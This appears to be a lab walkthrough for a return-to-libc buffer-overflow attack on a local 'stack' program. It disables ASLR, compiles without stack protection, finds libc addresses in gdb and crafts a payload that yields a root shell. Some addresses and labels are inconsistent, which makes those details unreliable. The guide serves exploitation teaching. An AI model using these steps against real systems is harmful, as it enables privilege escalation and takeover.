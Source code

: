 # Return-to-libc Attack Guide

## 📌 Step 1: Disable ASLR

ASLR (Address Space Layout Randomization) may affect the stability of the experiment. You can temporarily disable ASLR:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

This ensures that each time `stack` runs, the `libc` load address remains unchanged, making the return-to-libc attack more stable.

## 📌 Step 2: Compile `stack.c`

If your system is 64-bit, you may need to install 32-bit libraries:

```bash
sudo apt-get install gcc-multilib
```

Your `stack.c` code contains a typical buffer overflow vulnerability. First, stack protection needs to be disabled; otherwise, GCC will prevent buffer overflows by default:

```bash
gcc -m32 -fno-stack-protector -z execstack -o stack stack.c
```

### Explanation:

- `-m32` 👉 Compiles as 32-bit code (if your `libc` is 32-bit).
- `-fno-stack-protector` 👉 Disables canary protection.
- `-z execstack` 👉 Allows execution of code on the stack (for shellcode).
- `-o stack` 👉 Generates an executable file named `stack`.

## 📌 Step 3: Run `stack` and Check for Vulnerability

First, run `stack` to ensure it reads `badfile` correctly:

```bash
./stack
```

Since `badfile` has not been created yet, `stack` may output:

```bash
Segmentation fault (core dumped)
```

However, once `badfile` contains a malicious payload, it may hijack the return address and execute `system("/bin/sh")`, gaining a shell.

## 📌 Step 4: Determine `system()` Address

To execute return-to-libc, you need to find the `system()` function address using `gdb`:

```bash
gdb stack
```

Inside `gdb`, run:

```bash
(gdb) b foo
(gdb) r
```

Then check the address of `system()`:

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e42da0 <system>
```

Record this address (e.g., `0xf7e42da0`) as it will be used to craft the attack payload.

Then check the address of `exit()`:

```bash
(gdb) p exit
$1 = {<text variable, no debug info>} 0xb7e369d0 <system>
```

You can also locate the address of `"/bin/sh"` in `libc`:

```bash
(gdb) find 0xf7e00000, 0xf7ffffff, "/bin/sh"
```

It may output:

```bash
0xf7f4d890
```

Remember the `"/bin/sh"` address.

## 📌 Step 5: Generate `badfile`

The `libc_exploit.py` script is used to craft the attack input. Its core logic is:

```python
sh_addr = 0xbffffdd8     # Address of "/bin/sh"
exit_addr = 0xb7e369d0   # Address of exit()
system_addr = 0xb7e42da0 # Address of system()
```

Modify these values based on the `gdb` output, then run:

```bash
python3 libc_exploit.py
```

This script generates `badfile`, which contains carefully crafted buffer overflow data to hijack the return address and execute:

```c
system("/bin/sh");
```

## 📌 Step 6: Execute `stack`

Run:

```bash
./stack
```

If `badfile` is generated correctly, the program will execute `system("/bin/sh")`, granting you a root shell:

```ini
# id
uid=0(root) gid=0(root) groups=0(root)
```

## 📌 Step 7: Verify the Attack

If `stack` crashes:

- Ensure ASLR is disabled (`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`).
- Verify `system()` and `"/bin/sh"` addresses are correct using `gdb`.
- Make sure the addresses in `libc_exploit.py` match the `gdb` output.
- When running `stack`, check if `badfile` is correctly formatted:

```bash
hexdump -C badfile
```

Ensure that `system()` and `"/bin/sh"` addresses are at the correct positions.

---

**Done! 🎯 You have successfully executed a return-to-libc attack!**
